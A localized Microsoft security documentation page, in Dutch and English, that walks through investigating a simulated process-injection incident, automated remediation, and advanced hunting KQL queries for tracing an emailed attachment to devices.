<span data-ttu-id="bdbed-210">Voor dit scenario verloopt het proces <i>notepad.exe</i> abnormaal gedrag, waarbij communicatie met een externe locatie wordt aangewend.</span><span class="sxs-lookup"><span data-stu-id="bdbed-210">For this scenario, the process <i>notepad.exe</i> is exhibiting abnormal behavior, involving communication with an external location.</span></span> <span data-ttu-id="bdbed-211">Dit resultaat is onafhankelijk van de specifieke methode die wordt gebruikt om de schadelijke code in te voeren en uit te voeren.</span><span class="sxs-lookup"><span data-stu-id="bdbed-211">This outcome is independent of the specific method used to introduce and execute the malicious code.</span></span>

>[!NOTE]
><span data-ttu-id="bdbed-212">Omdat deze melding wordt weergegeven op basis van computer-trainings modellen waarvoor extra backend-verwerking is vereist, kan het enige tijd duren voordat deze melding wordt weergegeven op de portal.</span><span class="sxs-lookup"><span data-stu-id="bdbed-212">Because this alert is based on machine-learning models that require additional backend processing, it might take some time before you see this alert in the portal.</span></span>

<span data-ttu-id="bdbed-213">U ziet dat de details van de waarschuwing ook het externe IP-adres zijn: een indicator die u kunt gebruiken als draai om onderzoek uit te vouwen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-213">Notice that the alert details include the external IP address—an indicator that you can use as a pivot to expand investigation.</span></span>

<span data-ttu-id="bdbed-214">Selecteer het IP-adres in de structuur van het waarschuwings proces om de pagina met IP-adresdetails weer te geven.</span><span class="sxs-lookup"><span data-stu-id="bdbed-214">Select the IP address in the alert process tree to view the IP address details page.</span></span>

 

<span data-ttu-id="bdbed-216">In de volgende afbeelding ziet u de geselecteerde pagina met details van IP-adres (Klik op IP-adres in de boomstructuur van het waarschuwings proces).</span><span class="sxs-lookup"><span data-stu-id="bdbed-216">The following figure displays the selected IP Address details page (clicking on IP address in the Alert process tree).</span></span>
<span data-ttu-id="bdbed-217"></span><span class="sxs-lookup"><span data-stu-id="bdbed-217"></span></span>


<span data-ttu-id="bdbed-218">**Waarschuwing: gebruikers-en IP-adres Reconnaissance (SMB) (Bron: Azure ATP)**</span><span class="sxs-lookup"><span data-stu-id="bdbed-218">**Alert: User and IP address reconnaissance (SMB) (Source: Azure ATP)**</span></span>

<span data-ttu-id="bdbed-219">Met behulp van inventarisatie met behulp van SMB-protocol (Server Message Block) kunnen hackers recente gebruikers aanmeldinformatie verkrijgen waarmee ze later via het netwerk kunnen navigeren om toegang te krijgen tot een specifiek gevoelige account.</span><span class="sxs-lookup"><span data-stu-id="bdbed-219">Enumeration using Server Message Block (SMB) protocol enables attackers to get recent user logon information that helps them move laterally through the network to access a specific sensitive account.</span></span>

<span data-ttu-id="bdbed-220">Bij deze detectie wordt een waarschuwing geactiveerd wanneer de SMB-sessie inventarisatie wordt uitgevoerd voor een domeincontroller.</span><span class="sxs-lookup"><span data-stu-id="bdbed-220">In this detection, an alert is triggered when the SMB session enumeration runs against a domain controller.</span></span>

 


### <a name="review-the-device-timeline-microsoft-defender-atp"></a><span data-ttu-id="bdbed-222">De tijdlijn van het apparaat controleren [Microsoft Defender ATP]</span><span class="sxs-lookup"><span data-stu-id="bdbed-222">Review the device timeline [Microsoft Defender ATP]</span></span>
<span data-ttu-id="bdbed-223">Wanneer u de verschillende meldingen in dit incident hebt onderzocht, gaat u terug naar de pagina met het incident dat u eerder hebt onderzocht.</span><span class="sxs-lookup"><span data-stu-id="bdbed-223">After exploring the various alerts in this incident, navigate back to the incident page you investigated earlier.</span></span> <span data-ttu-id="bdbed-224">Selecteer het tabblad **apparaten** op de pagina incidenten om te controleren welke apparaten bij dit incident zijn betrokken, zoals gerapporteerd in Microsoft Defender ATP en Azure ATP.</span><span class="sxs-lookup"><span data-stu-id="bdbed-224">Select the **Devices** tab in the incident page to review the devices involved in this incident as reported by Microsoft Defender ATP and Azure ATP.</span></span>

<span data-ttu-id="bdbed-225">Selecteer de naam van het apparaat waarop de aanval is uitgevoerd om de entiteits pagina voor dat specifieke apparaat te openen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-225">Select the name of the device where the attack was conducted, to open the entity page for that specific device.</span></span> <span data-ttu-id="bdbed-226">Op deze pagina kunt u waarschuwingen weergeven die zijn geactiveerd en de gerelateerde gebeurtenissen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-226">In that page, you can see alerts that were triggered and related events.</span></span>

<span data-ttu-id="bdbed-227">Selecteer het tabblad **tijdlijn** om de tijdlijn van het apparaat te openen en alle gebeurtenissen en gedragingen op het apparaat in chronologische volgorde weer te geven, waarbij de waarschuwingen zijn getreden.</span><span class="sxs-lookup"><span data-stu-id="bdbed-227">Select the **Timeline** tab to open the device timeline and view all events and behaviors observed on the device in chronological order, interspersed with the alerts raised.</span></span>

 

<span data-ttu-id="bdbed-229">Het uitvouwen van een paar van de interessantere gedragingen bieden nuttige informatie, zoals proces bomen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-229">Expanding some of the more interesting behaviors provides useful details, such as process trees.</span></span>

<span data-ttu-id="bdbed-230">Schuif bijvoorbeeld omlaag totdat u bij de gebeurtenis **verdacht verdacht proces de injectie**vindt.</span><span class="sxs-lookup"><span data-stu-id="bdbed-230">For example, scroll down until you find the alert event **Suspicious process injection observed**.</span></span> <span data-ttu-id="bdbed-231">Selecteer de **powershell.exe die zijn geïnjecteerd naar notepad.exe proces** gebeurtenis eronder, om de volledige processtructuur weer te geven voor dit gedrag onder de grafiek **gebeurtenis entiteiten** in het zijvenster.</span><span class="sxs-lookup"><span data-stu-id="bdbed-231">Select the **powershell.exe injected to notepad.exe process** event below it, to display the full process tree for this behavior under the **Event entities** graph on the side pane.</span></span> <span data-ttu-id="bdbed-232">Gebruik de zoekbalk om zo nodig te filteren.</span><span class="sxs-lookup"><span data-stu-id="bdbed-232">Use the search bar for filtering if necessary.</span></span>



### <a name="review-the-user-information-microsoft-cloud-app-security"></a><span data-ttu-id="bdbed-234">Controleer de gebruikersgegevens [Microsoft Cloud app security]</span><span class="sxs-lookup"><span data-stu-id="bdbed-234">Review the user information [Microsoft Cloud App Security]</span></span>

<span data-ttu-id="bdbed-235">Selecteer op de pagina incident het tabblad **gebruikers** om de lijst met gebruikers weer te geven die betrokken zijn bij de aanval.</span><span class="sxs-lookup"><span data-stu-id="bdbed-235">On the incident page, select the **Users** tab to display the list of users involved in the attack.</span></span> <span data-ttu-id="bdbed-236">De tabel bevat extra informatie over elke gebruiker, waaronder de **onderzoek prioriteit** van elke gebruiker.</span><span class="sxs-lookup"><span data-stu-id="bdbed-236">The table contains additional information about each user, including each user’s **Investigation Priority** score.</span></span>

<span data-ttu-id="bdbed-237">Selecteer de gebruikersnaam om de profielpagina van de gebruiker te openen waar verder onderzoek kan worden uitgevoerd.</span><span class="sxs-lookup"><span data-stu-id="bdbed-237">Select the user name to open the user’s profile page where further investigation can be conducted.</span></span> <span data-ttu-id="bdbed-238">[Meer informatie over het onderzoeken van risico gebruikers](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify).</span><span class="sxs-lookup"><span data-stu-id="bdbed-238">[Read more about investigating risky users](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify).</span></span>
<br>
<span data-ttu-id="bdbed-239"></span><span class="sxs-lookup"><span data-stu-id="bdbed-239"></span></span>


## <a name="automated-investigation-and-remediation"></a><span data-ttu-id="bdbed-240">Automatisch onderzoek en herstel</span><span class="sxs-lookup"><span data-stu-id="bdbed-240">Automated investigation and remediation</span></span>
>[!NOTE]
><span data-ttu-id="bdbed-241">Voordat u via deze simulatie verdergaat, bekijkt u de volgende video om vertrouwd te raken met wat automatisch herstel is, waar u het kunt vinden in de portal en hoe u het kunt helpen bij uw beveiligingsactiviteiten:</span><span class="sxs-lookup"><span data-stu-id="bdbed-241">Before we walk you through this simulation, watch the following video to get familiar with what automated self-healing is, where to find it in the portal, and how it can help in your security operations:</span></span>

>[!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

<span data-ttu-id="bdbed-242">Ga terug naar het incident in het Microsoft 365 Security Center Portal.</span><span class="sxs-lookup"><span data-stu-id="bdbed-242">Navigate back to the incident in the Microsoft 365 Security Center portal.</span></span> <span data-ttu-id="bdbed-243">Het tabblad **onderzoeken** op de pagina **incident** toont de geautomatiseerde onderzoeken die zijn geactiveerd door Azure ATP en Microsoft Defender ATP.</span><span class="sxs-lookup"><span data-stu-id="bdbed-243">The **Investigations** tab in the **Incident** page shows the automated investigations that were triggered by Azure ATP and Microsoft Defender ATP.</span></span> <span data-ttu-id="bdbed-244">Met de onderstaande schermafbeelding wordt alleen het geautomatiseerd onderzoek weergegeven dat wordt geactiveerd door Microsoft Defender ATP.</span><span class="sxs-lookup"><span data-stu-id="bdbed-244">The screenshot below displays only the automated investigation triggered by Microsoft Defender ATP.</span></span> <span data-ttu-id="bdbed-245">Standaard worden in Microsoft Defender ATP de artefacten die zijn gevonden in de wachtrij, automatisch hersteld waarvoor herstel nodig is.</span><span class="sxs-lookup"><span data-stu-id="bdbed-245">By default, Microsoft Defender ATP automatically remediates the artifacts found in the queue, which requires remediation.</span></span>


<span data-ttu-id="bdbed-247">Selecteer de waarschuwing die een onderzoek heeft geactiveerd om de pagina **Details van onderzoek** te openen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-247">Select the alert that triggered an investigation to open the **Investigation details** page.</span></span> <span data-ttu-id="bdbed-248">U ziet de volgende informatie:</span><span class="sxs-lookup"><span data-stu-id="bdbed-248">You’ll see the following details:</span></span>
- <span data-ttu-id="bdbed-249">Waarschuwing (s) die het geautomatiseerde onderzoek hebben geactiveerd.</span><span class="sxs-lookup"><span data-stu-id="bdbed-249">Alert(s) that triggered the automated investigation.</span></span>
- <span data-ttu-id="bdbed-250">Beïnvloede gebruikers en apparaten.</span><span class="sxs-lookup"><span data-stu-id="bdbed-250">Impacted users and devices.</span></span> <span data-ttu-id="bdbed-251">Als indicatoren zijn gevonden op extra apparaten, worden deze extra apparaten ook weergegeven.</span><span class="sxs-lookup"><span data-stu-id="bdbed-251">If indicators are found on additional devices, these additional devices will be listed as well.</span></span>
- <span data-ttu-id="bdbed-252">Lijst met bewijzen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-252">List of evidence.</span></span> <span data-ttu-id="bdbed-253">De entiteiten zijn gevonden en geanalyseerd, zoals bestanden, processen, services, Stuurprogramma's en netwerkadressen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-253">The entities found and analyzed, such as files, processes, services, drivers, and network addresses.</span></span> <span data-ttu-id="bdbed-254">Deze entiteiten worden geanalyseerd op mogelijke relaties voor de waarschuwing en zijn geclassificeerd als schadelijk of schadelijk.</span><span class="sxs-lookup"><span data-stu-id="bdbed-254">These entities are analyzed for possible relationships to the alert and rated as benign or malicious.</span></span>
- <span data-ttu-id="bdbed-255">Bedreigingen gevonden.</span><span class="sxs-lookup"><span data-stu-id="bdbed-255">Threats found.</span></span> <span data-ttu-id="bdbed-256">Bekende bedreigingen die tijdens het onderzoek zijn gevonden.</span><span class="sxs-lookup"><span data-stu-id="bdbed-256">Known threats that are found during the investigation.</span></span>

>[!NOTE]
><span data-ttu-id="bdbed-257">Afhankelijk van de tijdsinstellingen, kan het geautomatiseerde onderzoek mogelijk nog steeds actief zijn.</span><span class="sxs-lookup"><span data-stu-id="bdbed-257">Depending on timing, the automated investigation might still be running.</span></span> <span data-ttu-id="bdbed-258">Wacht een paar minuten totdat het proces is voltooid voordat u het bewijs gaat verzamelen en analyseren en Bekijk de resultaten.</span><span class="sxs-lookup"><span data-stu-id="bdbed-258">Wait a few minutes for the process to complete before you collect and analyze the evidence and review the results.</span></span> <span data-ttu-id="bdbed-259">Vernieuw de pagina met **onderzoek Details** om de meest recente bevindingen te vinden.</span><span class="sxs-lookup"><span data-stu-id="bdbed-259">Refresh the **Investigation details** page to get the latest findings.</span></span>



<span data-ttu-id="bdbed-261">Tijdens het geautomatiseerde onderzoek heeft Microsoft voor de ATP-ATP de notepad.exe proces geïdentificeerd, dat werd geïnjecteerd als een van de artefacten waarvoor herstel nodig is.</span><span class="sxs-lookup"><span data-stu-id="bdbed-261">During the automated investigation, Microsoft Defender ATP identified the notepad.exe process, which was injected as one of the artifacts requiring remediation.</span></span> <span data-ttu-id="bdbed-262">Microsoft Defender ATP stopt automatisch de verdachte proces injectie als onderdeel van de geautomatiseerde herbemiddeling.</span><span class="sxs-lookup"><span data-stu-id="bdbed-262">Microsoft Defender ATP automatically stops the suspicious process injection as part of the automated remediation.</span></span> 

<span data-ttu-id="bdbed-263">U kunt <i>notepad.exe</i> verdwijnen uit de lijst met actieve processen op het testapparaat.</span><span class="sxs-lookup"><span data-stu-id="bdbed-263">You can see <i>notepad.exe</i> disappear from the list of running processes on the test device.</span></span>

## <a name="resolve-the-incident"></a><span data-ttu-id="bdbed-264">Het incident oplossen</span><span class="sxs-lookup"><span data-stu-id="bdbed-264">Resolve the incident</span></span>

<span data-ttu-id="bdbed-265">Wanneer het onderzoek is voltooid en bevestigd, moet u het incident sluiten.</span><span class="sxs-lookup"><span data-stu-id="bdbed-265">After the investigation is complete and confirmed to be remediated, close the incident.</span></span>

<span data-ttu-id="bdbed-266">Selecteer **incident beheren**.</span><span class="sxs-lookup"><span data-stu-id="bdbed-266">Select **Manage incident**.</span></span> <span data-ttu-id="bdbed-267">Stel de status voor het **oplossen van incidenten** in en selecteer de gewenste classificatie.</span><span class="sxs-lookup"><span data-stu-id="bdbed-267">Set the status to **Resolve incident** and select the relevant classification.</span></span>

<span data-ttu-id="bdbed-268">Wanneer het incident is opgelost, worden alle bijbehorende waarschuwingen in Microsoft 365 Beveiligingscentrum en in de bijbehorende portals gesloten.</span><span class="sxs-lookup"><span data-stu-id="bdbed-268">When the incident is resolved, it closes all of the associated alerts in Microsoft 365 Security Center and in the related portals.</span></span>

 

<br>
<span data-ttu-id="bdbed-270">Hiermee wordt de simulatie van de aanval voor incidentenbeheer en voor automatisch onderzoek en herstelscenario's gewikkeld.</span><span class="sxs-lookup"><span data-stu-id="bdbed-270">This wraps up the attack simulation for the incident management and automated investigation and remediation scenarios.</span></span> <span data-ttu-id="bdbed-271">Met de volgende simulatie wordt u begeleid bij het maken van een proactieve bedreiging van de jacht voor potentieel schadelijke bestanden.</span><span class="sxs-lookup"><span data-stu-id="bdbed-271">The next simulation will take you through proactive threat hunting for potentially malicious files.</span></span> 

## <a name="advanced-hunting-scenario"></a><span data-ttu-id="bdbed-272">Scenario voor Geavanceerd jacht</span><span class="sxs-lookup"><span data-stu-id="bdbed-272">Advanced hunting scenario</span></span>

>[!NOTE]
><span data-ttu-id="bdbed-273">Bekijk de volgende video voor meer informatie over de basisbeginselen van de ervaring, zie waar u deze kunt vinden in de portal en hoe u het kunt helpen bij het uitvoeren van beveiligingsbewerkingen:</span><span class="sxs-lookup"><span data-stu-id="bdbed-273">Before we walk you through the simulation, watch the following video to understand the advanced hunting concepts, see where you can find it in the portal, and know how it can help you in your security operations:</span></span>

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a><span data-ttu-id="bdbed-274">Voorschriften voor de jacht omgeving</span><span class="sxs-lookup"><span data-stu-id="bdbed-274">Hunting environment requirements</span></span>
<span data-ttu-id="bdbed-275">Er is één intern postvak en apparaat vereist voor dit scenario.</span><span class="sxs-lookup"><span data-stu-id="bdbed-275">There's a single internal mailbox and device required for this scenario.</span></span> <span data-ttu-id="bdbed-276">U hebt ook een extern e-mailaccount nodig om het testbericht te verzenden.</span><span class="sxs-lookup"><span data-stu-id="bdbed-276">You'll also need an external email account to send the test message.</span></span>

1.  <span data-ttu-id="bdbed-277">Controleer of uw Tenant [Microsoft Threat Protection heeft ingeschakeld](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).</span><span class="sxs-lookup"><span data-stu-id="bdbed-277">Verify that your tenant has [enabled Microsoft Threat Protection](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).</span></span>
2.  <span data-ttu-id="bdbed-278">Aangeven dat een doel postvak moet worden gebruikt voor het ontvangen van e-mail.</span><span class="sxs-lookup"><span data-stu-id="bdbed-278">Identify a target mailbox to be used for receiving email.</span></span>
    <span data-ttu-id="bdbed-279">a.</span><span class="sxs-lookup"><span data-stu-id="bdbed-279">a.</span></span>  <span data-ttu-id="bdbed-280">Dit postvak moet worden gecontroleerd in Office 365 ATP, b.</span><span class="sxs-lookup"><span data-stu-id="bdbed-280">This mailbox must be monitored by Office 365 ATP b.</span></span>  <span data-ttu-id="bdbed-281">Het apparaat van behoefte 3 moet toegang hebben tot dit postvak</span><span class="sxs-lookup"><span data-stu-id="bdbed-281">The device from requirement 3 needs to access this mailbox</span></span>
3.  <span data-ttu-id="bdbed-282">Configureer een testapparaat: a.</span><span class="sxs-lookup"><span data-stu-id="bdbed-282">Configure a test device: a.</span></span>  <span data-ttu-id="bdbed-283">Zorg dat u Windows 10 versie 1903 of hoger gebruikt.</span><span class="sxs-lookup"><span data-stu-id="bdbed-283">Make sure you are using Windows 10 version 1903 or later version.</span></span>
    <span data-ttu-id="bdbed-284">b.</span><span class="sxs-lookup"><span data-stu-id="bdbed-284">b.</span></span>  <span data-ttu-id="bdbed-285">Neem deel aan het test domein.</span><span class="sxs-lookup"><span data-stu-id="bdbed-285">Join the test device to the test domain.</span></span>
    <span data-ttu-id="bdbed-286">c.</span><span class="sxs-lookup"><span data-stu-id="bdbed-286">c.</span></span>  <span data-ttu-id="bdbed-287">[Schakel Windows Defender antivirus in](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span><span class="sxs-lookup"><span data-stu-id="bdbed-287">[Turn on Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="bdbed-288">Als u problemen ondervindt bij het inschakelen van Windows Defender antivirus, raadpleegt u [dit onderwerp over probleemoplossing](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span><span class="sxs-lookup"><span data-stu-id="bdbed-288">If you are having trouble enabling Windows Defender Antivirus, see [this troubleshooting topic](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>
    <span data-ttu-id="bdbed-289">d.</span><span class="sxs-lookup"><span data-stu-id="bdbed-289">d.</span></span>  <span data-ttu-id="bdbed-290">[Onboarding to Microsoft Defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span><span class="sxs-lookup"><span data-stu-id="bdbed-290">[Onboard to Microsoft Defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

### <a name="run-the-simulation"></a><span data-ttu-id="bdbed-291">De simulatie uitvoeren</span><span class="sxs-lookup"><span data-stu-id="bdbed-291">Run the simulation</span></span>
1.  <span data-ttu-id="bdbed-292">Stuur via een extern e-mailaccount een e-mailbericht naar het postvak dat is gevonden in stap 2 van de sectie vereisten voor testomgeving.</span><span class="sxs-lookup"><span data-stu-id="bdbed-292">From an external email account, send an email to the mailbox identified in step 2 of the test environment requirements section.</span></span> <span data-ttu-id="bdbed-293">Voeg een bijlage toe die wordt toegestaan via elk bestaand e-mail filter beleid.</span><span class="sxs-lookup"><span data-stu-id="bdbed-293">Include an attachment that will be allowed through any existing email filter policies.</span></span>  <span data-ttu-id="bdbed-294">Dit bestand hoeft niet te zijn schadelijk of een uitvoerbaar bestand.</span><span class="sxs-lookup"><span data-stu-id="bdbed-294">This file does not need to be malicious or an executable.</span></span> <span data-ttu-id="bdbed-295">Voorgestelde bestandstypen zijn <i>. PDF</i>, <i>. exe</i> (indien toegestaan) of Office-document, zoals een Word-bestand.</span><span class="sxs-lookup"><span data-stu-id="bdbed-295">Suggested file types are <i>.pdf</i>, <i>.exe</i> (if allowed), or Office document such as a Word file.</span></span>
2.  <span data-ttu-id="bdbed-296">Open het verzonden e-mailbericht van het apparaat dat is geconfigureerd in stap 3 van de sectie omgevingsvereisten testen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-296">Open the sent email from the device configured as defined in step 3 of the test environment requirements section.</span></span> <span data-ttu-id="bdbed-297">Open de bijlage of sla het bestand op het apparaat op.</span><span class="sxs-lookup"><span data-stu-id="bdbed-297">Either open the attachment or save the file to the device.</span></span>


<span data-ttu-id="bdbed-298">**Go-jacht**</span><span class="sxs-lookup"><span data-stu-id="bdbed-298">**Go hunting**</span></span>
1.  <span data-ttu-id="bdbed-299">Open de portal van security.microsoft.com.</span><span class="sxs-lookup"><span data-stu-id="bdbed-299">Open the security.microsoft.com portal.</span></span>

2.  <span data-ttu-id="bdbed-300">Ga naar de **jacht > geavanceerde jacht**.</span><span class="sxs-lookup"><span data-stu-id="bdbed-300">Navigate to **Hunting > Advanced hunting**.</span></span>

     

3.  <span data-ttu-id="bdbed-302">Maak een query die begint met het verzamelen van e-mail gebeurtenissen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-302">Build a query that starts by gathering email events.</span></span>

    1.  <span data-ttu-id="bdbed-303">Selecteer in het deelvenster query de optie Nieuw.</span><span class="sxs-lookup"><span data-stu-id="bdbed-303">From the query pane, select New.</span></span>
    
    1.  <span data-ttu-id="bdbed-304">Dubbelklik op de tabel EmailEvents van het schema.</span><span class="sxs-lookup"><span data-stu-id="bdbed-304">Double-click on the EmailEvents table from the schema.</span></span>

        ```
        EmailEvents 
        ```                                        

    1.  <span data-ttu-id="bdbed-305">De laatste 24 uur van het tijdsbestek wijzigen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-305">Change the time frame to the last 24 hours.</span></span> <span data-ttu-id="bdbed-306">Ervan uitgaand dat de e-mail die u hebt verzonden toen u de bovenstaande simulatie uitvoerde, stond in de afgelopen 24 uur, anders wijzigt u de tijdsperiode.</span><span class="sxs-lookup"><span data-stu-id="bdbed-306">Assuming the email you sent when you ran the simulation above was in the past 24 hours, otherwise change the time frame.</span></span>
    
         

    1.  <span data-ttu-id="bdbed-309">Voer de query uit.</span><span class="sxs-lookup"><span data-stu-id="bdbed-309">Run the query.</span></span>  <span data-ttu-id="bdbed-310">Het kan zijn dat u veel resultaten hebt, afhankelijk van de omgeving van de prototype.</span><span class="sxs-lookup"><span data-stu-id="bdbed-310">You may have many results depending on the environment for the pilot.</span></span>  

        > [!NOTE]
        > <span data-ttu-id="bdbed-311">Zie de volgende stap voor het filteren van opties om het resultaat van de gegevens te beperken.</span><span class="sxs-lookup"><span data-stu-id="bdbed-311">See the next step for filtering options to limit data return.</span></span>

         

        > [!NOTE]
        > <span data-ttu-id="bdbed-313">Geavanceerde jacht geeft queryresultaten weer als tabelgegevens.</span><span class="sxs-lookup"><span data-stu-id="bdbed-313">Advanced hunting displays query results as tabular data.</span></span> <span data-ttu-id="bdbed-314">U kunt ook kiezen voor het weergeven van de gegevens in andere notatie typen, zoals grafieken.</span><span class="sxs-lookup"><span data-stu-id="bdbed-314">You can also opt to view the data in other format types such as charts.</span></span>    

    1.  <span data-ttu-id="bdbed-315">Bekijk de resultaten en kijk of u het e-mailbericht dat u hebt geopend kunt identificeren.</span><span class="sxs-lookup"><span data-stu-id="bdbed-315">Look at the results and see if you can identify the email you opened.</span></span>  <span data-ttu-id="bdbed-316">Het kan tot 2 uur duren voordat het bericht in de geavanceerde jacht wordt weergegeven.</span><span class="sxs-lookup"><span data-stu-id="bdbed-316">It may take up to 2 hours for the message to show up in advanced hunting.</span></span> <span data-ttu-id="bdbed-317">Als de e-mail omgeving grote en veel resultaten bevat, kunt u de **optie filters weergeven** gebruiken om het bericht te zoeken.</span><span class="sxs-lookup"><span data-stu-id="bdbed-317">If the email environment is large and there are many results, you might want to use the **Show Filters option** to find the message.</span></span> 

   <span data-ttu-id="bdbed-318">In het voorbeeld is het e-mailbericht verzonden via een Yahoo-account.</span><span class="sxs-lookup"><span data-stu-id="bdbed-318">In the sample, the email was sent from a Yahoo account.</span></span> <span data-ttu-id="bdbed-319">Klik op het **+** pictogram naast **Yahoo.com** onder de sectie SenderFromDomain en klik vervolgens op **toepassen** om het geselecteerde domein toe te voegen aan de query.</span><span class="sxs-lookup"><span data-stu-id="bdbed-319">Click the **+** icon beside **yahoo.com** under the SenderFromDomain section and then click **Apply** to add the selected domain to the query.</span></span>  <span data-ttu-id="bdbed-320">Gebruik het domein of e-mailaccount dat is gebruikt voor het verzenden van het testbericht in stap 1 van de simulatie uitvoeren om de resultaten te filteren.</span><span class="sxs-lookup"><span data-stu-id="bdbed-320">Use the domain or email account that was used to send the test message in step 1 of Run the Simulation to filter your results.</span></span>  <span data-ttu-id="bdbed-321">Voer de query opnieuw uit om een kleinere resultatenset te krijgen om te controleren of het bericht in de simulatie wordt weergegeven.</span><span class="sxs-lookup"><span data-stu-id="bdbed-321">Run the query again to get a smaller result set to verify that you see the message from the simulation.</span></span>
   
         

        ```console
        EmailEvents 
        | where SenderMailFromDomain == "yahoo.com"
        ```

    1.  <span data-ttu-id="bdbed-322">Klik op de uitkomst rijen van de query, zodat u de record kunt controleren.</span><span class="sxs-lookup"><span data-stu-id="bdbed-322">Click the resulting rows from the query so you can inspect the record.</span></span>
   
         

4.  <span data-ttu-id="bdbed-324">Nu u hebt gecontroleerd of u het e-mailbericht kunt zien, voegt u een filter toe voor de bijlagen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-324">Now that you have verified that you can see the email, add a filter for the attachments.</span></span> <span data-ttu-id="bdbed-325">Richt u op alle e-mailberichten met bijlagen in de omgeving.</span><span class="sxs-lookup"><span data-stu-id="bdbed-325">Focus on all emails with attachments in the environment.</span></span> <span data-ttu-id="bdbed-326">Voor dit scenario zijn de focus op inkomende e-mailberichten, niet voor berichten die vanuit uw omgeving worden verzonden.</span><span class="sxs-lookup"><span data-stu-id="bdbed-326">For this scenario, focus on inbound emails, not those that are being sent out from your environment.</span></span> <span data-ttu-id="bdbed-327">Verwijder filters die u hebt toegevoegd om het bericht op te halen en voeg "| waarbij **AttachmentCount > 0** en **EmailDirection**  ==  **"inkomende" "**</span><span class="sxs-lookup"><span data-stu-id="bdbed-327">Remove any filters you have added to locate your message and add “| where **AttachmentCount > 0** and **EmailDirection** == **“Inbound””**</span></span>

    <span data-ttu-id="bdbed-328">In de volgende query ziet u het resultaat voor een kortere lijst dan de aanvankelijke query voor alle e-mail gebeurtenissen:</span><span class="sxs-lookup"><span data-stu-id="bdbed-328">The following query will show you the result with a shorter list than your initial query for all email events:</span></span>

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"

    ```

5.  <span data-ttu-id="bdbed-329">Neem vervolgens de informatie over de bijlage op (bijvoorbeeld: bestandsnaam, hashes) in de resultatenset.</span><span class="sxs-lookup"><span data-stu-id="bdbed-329">Next, include the information about the attachment (such as: file name, hashes) to your result set.</span></span> <span data-ttu-id="bdbed-330">U kunt dit doen door lid te worden van de tabel **EmailAttachmentInfo** .</span><span class="sxs-lookup"><span data-stu-id="bdbed-330">To do so, join the **EmailAttachmentInfo** table.</span></span> <span data-ttu-id="bdbed-331">De veelgebruikte velden die u kunt gebruiken om deel te nemen in dit geval zijn **NetworkMessageId** en **RecipientObjectId**.</span><span class="sxs-lookup"><span data-stu-id="bdbed-331">The common fields to use for joining, in this case are **NetworkMessageId** and **RecipientObjectId**.</span></span>

<span data-ttu-id="bdbed-332">De volgende query bevat ook een extra regel | **Project: Wijzig de naam van EmailTimestamp = tijdstempel,** zodat u kunt zien welke tijdstempels zijn gerelateerd aan de e-mail en tijdstempels die u toevoegt aan de volgende stap.</span><span class="sxs-lookup"><span data-stu-id="bdbed-332">The following query also includes an additional line “| **project-rename EmailTimestamp=Timestamp**” that'll help identify which timestamp was related to the email versus timestamps related to file actions that you'll add in the next step.</span></span>

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    ```

6.  <span data-ttu-id="bdbed-333">Gebruik vervolgens de waarde **sha256** in de tabel **EmailAttachmentInfo** om **DeviceFileEvents** (bestandsacties die op het eindpunt plaatsvond) voor die hash te zoeken.</span><span class="sxs-lookup"><span data-stu-id="bdbed-333">Next, use the **SHA256** value from the **EmailAttachmentInfo** table to find **DeviceFileEvents** (file actions that happened on the endpoint) for that hash.</span></span>  <span data-ttu-id="bdbed-334">Het veld gebruikelijk is de SHA256-hash voor de bijlage.</span><span class="sxs-lookup"><span data-stu-id="bdbed-334">The common field here will be the SHA256 hash for the attachment.</span></span>

    <span data-ttu-id="bdbed-335">De resultaattabel bevat nu gegevens uit het eindpunt (Microsoft Defender ATP), zoals de apparaatnaam, de actie die is uitgevoerd (in dit geval gefilterd op alleen FileCreated-gebeurtenissen) en de locatie waar het bestand is opgeslagen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-335">The resulting table now includes details from the endpoint (Microsoft Defender ATP) such as device name, what action was done (in this case, filtered to only include FileCreated events), and where the file was stored.</span></span> <span data-ttu-id="bdbed-336">De naam van het account dat is gekoppeld aan het proces, wordt ook opgenomen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-336">The account name associated with the process will also be included.</span></span>

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId 
    | join DeviceFileEvents on SHA256 
    | where ActionType == "FileCreated"
    ```

